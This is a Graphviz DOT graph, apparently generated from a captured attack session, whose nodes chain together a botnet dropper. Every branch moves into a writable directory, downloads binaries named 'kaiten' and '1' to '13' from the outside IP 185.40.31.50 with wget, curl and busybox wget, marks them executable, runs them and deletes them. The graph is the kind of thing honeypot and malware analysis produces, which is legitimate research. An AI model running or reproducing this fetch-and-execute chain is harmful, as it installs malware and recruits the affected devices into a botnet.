 digraph {
278 [label="cd /tmp "];
278 -> 278
2 [label="wget http://185.40.31.50/kaiten "];
2 -> 4 [label="&&,"];
4 [label="curl -O http://185.40.31.50/kaiten "];
4 -> 6 [label="&&,"];
6 [label="busybox wget http://185.40.31.50/kaiten "];
6 -> 8 [label="&&,"];
8 [label="chmod +x kaiten "];
8 -> 10 [label="&&,"];
10 [label="./kaiten "];
10 -> 12 [label="&&,"];
12 [label="rm -rf kaiten "];
12 -> 278 [label=";,"];
278 [label="cd /tmp "];
278 -> 280 [label="&&,"];
280 [label="cd /var/run "];
280 -> 282 [label="||,"];
282 [label="cd /mnt "];
282 -> 284 [label="||,"];
284 [label="cd /root "];
284 -> 286 [label="||,"];
286 [label="cd / "];
286 -> 24 [label="||,"];
24 [label="wget http://185.40.31.50/1 "];
24 -> 26 [label=";,"];
26 [label="curl -O http://185.40.31.50/1 "];
26 -> 28 [label=";,"];
28 [label="busybox wget http://185.40.31.50/1 "];
28 -> 30 [label=";,"];
30 [label="chmod +x 1 "];
30 -> 32 [label=";,"];
32 [label="./1 "];
32 -> 34 [label=";,"];
34 [label="rm -rf 1 "];
34 -> 278 [label=";,"];
278 [label="cd /tmp "];
278 -> 278
280 [label="cd /var/run "];
280 -> 282 [label="||,"];
282 [label="cd /mnt "];
282 -> 284 [label="||,"];
284 [label="cd /root "];
284 -> 286 [label="||,"];
286 [label="cd / "];
286 -> 46 [label="||,"];
46 [label="wget http://185.40.31.50/2 "];
46 -> 48 [label=";,"];
48 [label="curl -O http://185.40.31.50/2 "];
48 -> 50 [label=";,"];
50 [label="busybox wget http://185.40.31.50/2 "];
50 -> 52 [label=";,"];
52 [label="chmod +x 2 "];
52 -> 54 [label=";,"];
54 [label="./2 "];
54 -> 56 [label=";,"];
56 [label="rm -rf 2 "];
56 -> 278 [label=";,"];
278 [label="cd /tmp "];
278 -> 278
280 [label="cd /var/run "];
280 -> 282 [label="||,"];
282 [label="cd /mnt "];
282 -> 284 [label="||,"];
284 [label="cd /root "];
284 -> 286 [label="||,"];
286 [label="cd / "];
286 -> 68 [label="||,"];
68 [label="wget http://185.40.31.50/3 "];
68 -> 70 [label=";,"];
70 [label="curl -O http://185.40.31.50/3 "];
70 -> 72 [label=";,"];
72 [label="busybox wget http://185.40.31.50/3 "];
72 -> 74 [label=";,"];
74 [label="chmod +x 3 "];
74 -> 76 [label=";,"];
76 [label="./3 "];
76 -> 78 [label=";,"];
78 [label="rm -rf 3 "];
78 -> 278 [label=";,"];
278 [label="cd /tmp "];
278 -> 278
280 [label="cd /var/run "];
280 -> 282 [label="||,"];
282 [label="cd /mnt "];
282 -> 284 [label="||,"];
284 [label="cd /root "];
284 -> 286 [label="||,"];
286 [label="cd / "];
286 -> 90 [label="||,"];
90 [label="wget http://185.40.31.50/4 "];
90 -> 92 [label=";,"];
92 [label="curl -O http://185.40.31.50/4 "];
92 -> 94 [label=";,"];
94 [label="busybox wget http://185.40.31.50/4 "];
94 -> 96 [label=";,"];
96 [label="chmod +x 4 "];
96 -> 98 [label=";,"];
98 [label="./4 "];
98 -> 100 [label=";,"];
100 [label="rm -rf 4 "];
100 -> 278 [label=";,"];
278 [label="cd /tmp "];
278 -> 278
280 [label="cd /var/run "];
280 -> 282 [label="||,"];
282 [label="cd /mnt "];
282 -> 284 [label="||,"];
284 [label="cd /root "];
284 -> 286 [label="||,"];
286 [label="cd / "];
286 -> 112 [label="||,"];
112 [label="wget http://185.40.31.50/5 "];
112 -> 114 [label=";,"];
114 [label="curl -O http://185.40.31.50/5 "];
114 -> 116 [label=";,"];
116 [label="busybox wget http://185.40.31.50/5 "];
116 -> 118 [label=";,"];
118 [label="chmod +x 5 "];
118 -> 120 [label=";,"];
120 [label="./5 "];
120 -> 122 [label=";,"];
122 [label="rm -rf 5 "];
122 -> 278 [label=";,"];
278 [label="cd /tmp "];
278 -> 278
280 [label="cd /var/run "];
280 -> 282 [label="||,"];
282 [label="cd /mnt "];
282 -> 284 [label="||,"];
284 [label="cd /root "];
284 -> 286 [label="||,"];
286 [label="cd / "];
286 -> 134 [label="||,"];
134 [label="wget http://185.40.31.50/6 "];
134 -> 136 [label=";,"];
136 [label="curl -O http://185.40.31.50/6 "];
136 -> 138 [label=";,"];
138 [label="busybox wget http://185.40.31.50/6 "];
138 -> 140 [label=";,"];
140 [label="chmod +x 6 "];
140 -> 142 [label=";,"];
142 [label="./6 "];
142 -> 144 [label=";,"];
144 [label="rm -rf 6 "];
144 -> 278 [label=";,"];
278 [label="cd /tmp "];
278 -> 278
280 [label="cd /var/run "];
280 -> 282 [label="||,"];
282 [label="cd /mnt "];
282 -> 284 [label="||,"];
284 [label="cd /root "];
284 -> 286 [label="||,"];
286 [label="cd / "];
286 -> 156 [label="||,"];
156 [label="wget http://185.40.31.50/7 "];
156 -> 158 [label=";,"];
158 [label="curl -O http://185.40.31.50/7 "];
158 -> 160 [label=";,"];
160 [label="busybox wget http://185.40.31.50/7 "];
160 -> 162 [label=";,"];
162 [label="chmod +x 7 "];
162 -> 164 [label=";,"];
164 [label="./7 "];
164 -> 166 [label=";,"];
166 [label="rm -rf 7 "];
166 -> 278 [label=";,"];
278 [label="cd /tmp "];
278 -> 278
280 [label="cd /var/run "];
280 -> 282 [label="||,"];
282 [label="cd /mnt "];
282 -> 284 [label="||,"];
284 [label="cd /root "];
284 -> 286 [label="||,"];
286 [label="cd / "];
286 -> 178 [label="||,"];
178 [label="wget http://185.40.31.50/8 "];
178 -> 180 [label=";,"];
180 [label="curl -O http://185.40.31.50/8 "];
180 -> 182 [label=";,"];
182 [label="busybox wget http://185.40.31.50/8 "];
182 -> 184 [label=";,"];
184 [label="chmod +x 8 "];
184 -> 186 [label=";,"];
186 [label="./8 "];
186 -> 188 [label=";,"];
188 [label="rm -rf 8 "];
188 -> 278 [label=";,"];
278 [label="cd /tmp "];
278 -> 278
280 [label="cd /var/run "];
280 -> 282 [label="||,"];
282 [label="cd /mnt "];
282 -> 284 [label="||,"];
284 [label="cd /root "];
284 -> 286 [label="||,"];
286 [label="cd / "];
286 -> 200 [label="||,"];
200 [label="wget http://185.40.31.50/9 "];
200 -> 202 [label=";,"];
202 [label="curl -O http://185.40.31.50/9 "];
202 -> 204 [label=";,"];
204 [label="busybox wget http://185.40.31.50/9 "];
204 -> 206 [label=";,"];
206 [label="chmod +x 9 "];
206 -> 208 [label=";,"];
208 [label="./9 "];
208 -> 210 [label=";,"];
210 [label="rm -rf 9 "];
210 -> 278 [label=";,"];
278 [label="cd /tmp "];
278 -> 278
280 [label="cd /var/run "];
280 -> 282 [label="||,"];
282 [label="cd /mnt "];
282 -> 284 [label="||,"];
284 [label="cd /root "];
284 -> 286 [label="||,"];
286 [label="cd / "];
286 -> 222 [label="||,"];
222 [label="wget http://185.40.31.50/10 "];
222 -> 224 [label=";,"];
224 [label="curl -O http://185.40.31.50/10 "];
224 -> 226 [label=";,"];
226 [label="busybox wget http://185.40.31.50/10 "];
226 -> 228 [label=";,"];
228 [label="chmod +x 10 "];
228 -> 230 [label=";,"];
230 [label="./10 "];
230 -> 232 [label=";,"];
232 [label="rm -rf 10 "];
232 -> 278 [label=";,"];
278 [label="cd /tmp "];
278 -> 278
280 [label="cd /var/run "];
280 -> 282 [label="||,"];
282 [label="cd /mnt "];
282 -> 284 [label="||,"];
284 [label="cd /root "];
284 -> 286 [label="||,"];
286 [label="cd / "];
286 -> 244 [label="||,"];
244 [label="wget http://185.40.31.50/11 "];
244 -> 246 [label=";,"];
246 [label="curl -O http://185.40.31.50/11 "];
246 -> 248 [label=";,"];
248 [label="busybox wget http://185.40.31.50/11 "];
248 -> 250 [label=";,"];
250 [label="chmod +x 11 "];
250 -> 252 [label=";,"];
252 [label="./11 "];
252 -> 254 [label=";,"];
254 [label="rm -rf 11 "];
254 -> 278 [label=";,"];
278 [label="cd /tmp "];
278 -> 278
280 [label="cd /var/run "];
280 -> 282 [label="||,"];
282 [label="cd /mnt "];
282 -> 284 [label="||,"];
284 [label="cd /root "];
284 -> 286 [label="||,"];
286 [label="cd / "];
286 -> 266 [label="||,"];
266 [label="wget http://185.40.31.50/12 "];
266 -> 268 [label=";,"];
268 [label="curl -O http://185.40.31.50/12 "];
268 -> 270 [label=";,"];
270 [label="busybox wget http://185.40.31.50/12 "];
270 -> 272 [label=";,"];
272 [label="chmod +x 12 "];
272 -> 274 [label=";,"];
274 [label="./12 "];
274 -> 276 [label=";,"];
276 [label="rm -rf 12 "];
276 -> 278 [label=";,"];
278 [label="cd /tmp "];
278 -> 278
280 [label="cd /var/run "];
280 -> 282 [label="||,"];
282 [label="cd /mnt "];
282 -> 284 [label="||,"];
284 [label="cd /root "];
284 -> 286 [label="||,"];
286 [label="cd / "];
286 -> 288 [label="||,"];
288 [label="wget http://185.40.31.50/13 "];
288 -> 290 [label=";,"];
290 [label="curl -O http://185.40.31.50/13 "];
290 -> 292 [label=";,"];
292 [label="busybox wget http://185.40.31.50/13 "];
292 -> 294 [label=";,"];
294 [label="chmod +x 13 "];
294 -> 296 [label=";,"];
296 [label="./13 "];
296 -> 297 [label=";,"];
}
